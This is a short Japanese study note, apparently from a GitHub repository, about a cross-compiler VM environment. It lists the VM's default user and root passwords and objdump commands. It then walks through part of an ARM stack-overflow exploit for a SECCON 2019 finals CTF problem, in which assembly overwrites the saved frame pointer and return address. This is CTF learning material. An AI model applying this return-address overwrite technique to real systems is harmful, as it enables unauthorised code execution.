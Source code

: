 # cross-gcc

## 開発環境
熱血！／大熱血！ アセンブラ入門  
開発環境のＶＭイメージ
http://kozos.jp/vmimage/burning-asm.html

### ID/PASS
user/progtooluser
root/progtoolroot


### tool

/usr/local/cross-gcc494/bin 配下にobjdumpなどのツールが入っている
例えば arm-elf用の toolは `ls /usr/local/cross-gcc494/bin/arm-elf*` 

objdump なら
```
/usr/local/cross-gcc494/bin/arm-elf-objdump -d arm-elf.x | less
```

#### cross-gcc494-v1.0.tgz
解凍すると、sample ディレクトリにいろんな関数が入っている
これをディスアセンブリしたものが一緒に入っているので、どのアーキテクチャもそれを読んでいけばだいたい動作がわかる


## ARMのexploit例
問題・解答例は以下に保管。 https://github.com/yyamada12/ctfs/tree/master/seccon2019final 

ctfs/seccon2019final/solve/read-password/arm-elf.S

```
.org  0x1c10 - 16 - 256 - 4 - 28
```
org: バイナリをここに配置してくださいという命令

```
_start:

.long 0x61626364
.long 0
.long 0
.long 0
```
16バイトはまず適当に埋める

```
.long 0 /* FP -> FP */
.long 0x1c00 /* IP -> SP */
.long _code /* LR -> PC */
.long 0 /* PC -> discard */
```
戻りアドレスを設定する (`_code`)


make arm-elf.bin すると arm-elf.binが生成される

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2MzI4Nzc3OTksMTA3NDYzNzc5NiwtMT
YwNzI3NzY2Miw2MzEyMTU1ODksLTk0NzQyOTNdfQ==
-->